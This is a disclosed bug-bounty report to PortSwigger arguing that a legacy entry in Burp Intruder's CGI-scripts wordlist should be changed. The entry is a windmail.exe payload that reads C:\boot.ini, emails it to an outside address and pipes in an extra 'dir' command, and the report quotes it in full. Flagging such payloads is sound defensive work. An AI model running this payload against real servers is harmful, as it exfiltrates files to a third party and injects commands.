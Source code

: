 # cgi scripts wordlist entry for windmail.exe has payload that sends arbitrary file read result to third-party

## Report Details
- **Report ID**: 2733994
- **URL**: https://hackerone.com/reports/2733994
- **State**: Closed
- **Severity**: low
- **Submitted**: 2024-09-22T19:20:36.303Z
- **Disclosed**: 2025-03-13T15:44:25.943Z

## Reporter
- **Username**: floyd
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: portswigger

## Vulnerability Information
1. Get to your basement, look for that floppy disc copy of windmail.exe
2. Install windmail.exe on a Windows 98 server (good luck with that)
3. Run Burp's Intruder payload list `CGI scripts` against the folder `/cgi-bin/` where you installed that nifty windmail.exe
4. Burp will send the following payload from the wordlist: `WINDMAIL.EXE?%20-n%20c:\boot.ini%20Hacker@hax0r.com%20|%20dir%20c:\\`
5. Due to the payload, windmail.exe will send the C:\boot.ini file to the email address Hacker@hax0r.com according to https://seclists.org/bugtraq/2000/Mar/322
6. hax0r.com is currently up for sale: http://hax0r.com

If you are going to argue that nobody is running windmail.exe in 2024, why is that entry still in the wordlist? :D

Although that's really what happens, don't take this report too serious ;) . Am I the only person in the last 20 years who really went through the wordlist manually? But I would still change that one entry.

## Impact

Burp sends the not-very-confidential file C:\boot.ini of an exploited server to the e-mail address Hacker@hax0r.com

## Attachments
No attachments
